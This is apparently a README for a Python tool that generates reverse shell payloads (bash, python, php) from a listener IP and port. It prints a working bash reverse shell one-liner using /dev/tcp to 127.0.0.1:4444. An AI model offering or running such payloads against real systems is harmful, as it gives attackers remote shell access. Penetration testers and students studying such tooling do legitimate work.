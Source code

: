 # revshell-generator
A simple  python reverse shell  payload generator script 
# command
python sblsrvshell.py
# set options
type listener ip and port 
# payload
 select payload option 
(1.bash
 2.python
 3.php ..etc)
 eg : if you need bash hit option number (1)
# output
 sh -i >& /dev/tcp/127.0.0.1/4444 0>&1
